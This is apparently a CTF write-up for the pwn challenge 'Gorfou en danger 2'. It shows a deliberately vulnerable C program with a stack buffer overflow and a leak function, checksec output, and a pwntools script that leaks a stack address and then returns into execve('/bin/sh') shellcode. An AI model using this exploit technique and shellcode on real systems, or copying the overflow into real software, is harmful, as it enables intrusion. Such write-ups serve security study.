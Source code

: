 ```yaml
---
layout: post
title: Gorfou en danger 2
date: 10/06/2025
categories: [ctf, pwn]
tag: [pwn, ctf]
author: Paw
---
```


```C
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

int main(void);

void menu() {
    puts("      __                                                                       ");
    puts("     /\\ \\                                                                    ");
    puts("    /  \\ \\      >>========================================================<< ");
    puts("   / /\\ \\ \\     ||░█▀▄░█▀▀░█▀▀░█▀▀░░░█▀▀░█▀█░█▀█░█▀▀░█▀█░█░░░█▀▀░░░█░█░▀▀▄||");
    puts("  / / /\\ \\ \\    ||░█░█░█░█░▀▀█░█░█░░░█░░░█░█░█░█░▀▀█░█░█░█░░░█▀▀░░░▀▄▀░▄▀░||");
    puts(" / / /__\\_\\ \\   ||░▀▀░░▀▀▀░▀▀▀░▀▀▀░░░▀▀▀░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀▀░░░░▀░░▀▀▀||");
    puts("/ / /________\\  >>========================================================<<  ");
    puts("\\/___________/                                                                ");
}

void debug_info(void) { 
    // our very own "info proc map"
    printf("main address : %p\n", &main);
    printf("printf address : %p\n", *(uint64_t *)0x403008);
    void* local_var = NULL;
    printf("Stack address : %p\n", &local_var);
    return;
}

void take_command() {
    char command[0x100];
    
    printf("> ");
    read(0, command, 0x130);
    printf("Commande inconnue\n");
}

int main(void) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    menu();

    printf("Terminal de contrôle à distance de la station orbilate Penrose\n");

    while (1) {
        take_command();
    }

    return 0;
}
```
In the challenge source code we can see a function called : `debug_info`

After a simple checksec we can see that NX protection is disable and there is no PIE :
```bash
    gorfou-en-danger-2 checksec --file=chall      
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   RW-RUNPATH   43 Symbols	 No	0		2		chall

```
An exploit model is given in the challenge. This model can generate shellcode, and it is not necessary to specify that this shellcode will be useful.

```C
void debug_info(void) { 
    // our very own "info proc map"
    printf("main address : %p\n", &main);
    printf("printf address : %p\n", *(uint64_t *)0x403008);
    void* local_var = NULL;
    printf("Stack address : %p\n", &local_var);
    return;
}
```

This function leak the stack adress. 

With the help of a little ret2win we will go to the `debug_info` function.

> we have already dealt with this subject

Sooo, we can stock the leak and then do a simple ret2shellcode

> : shellcode + some junk until the EIP/RIP adress + adress of the bottom of the stack 

wu: 
```python
from pwn import *

exe = ELF("./chall")
context.binary = exe

def conn():
    if args.LOCAL:
        r = process("./chall")
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = process("./chall")
    return r

def generate_shellcode():
    shellcode_asm = """
        xor     rdx, rdx
        movabs  rbx, 0x68732f6e69622fff
        shr     rbx, 8
        push    rbx
        mov     rdi, rsp
        xor     rax, rax
        push    rax
        push    rdi
        mov     rsi, rsp
        mov     al, 0x3b
        syscall 
        push    1
        pop     rdi
        push    0x3c
        pop     rax
        syscall 
	"""
    shellcode = asm(shellcode_asm, bits=64)
    return shellcode


def main():
    r = conn()
    r.recvuntil(b"> ")
    debug_addr = p64(0x00000000004004ed)
    main_addr = p64(0x0000000000400584)
    sc = generate_shellcode()
    offset = 264
    p1 = b'a'*offset + debug_addr + main_addr 
    r.sendline(p1)
    leak = r.recv().split(b' : ')

    main = int(leak[1].split(b'\n')[0][2:], 16)
    printf = int(leak[2].split(b'\n')[0][2:], 16)
    stack = int(leak[3].split(b'\n')[0][2:], 16)

    print(f'main={hex(main)}')
    print(f'printf={hex(printf)}')
    print(f'stack={hex(stack)}')
    
    pay = sc
    pay += b'a' * (offset - len(sc))
    pay += p64(stack - 0x100)
    r.sendline(pay)
    r.interactive()

if __name__ == "__main__":
    main()

```
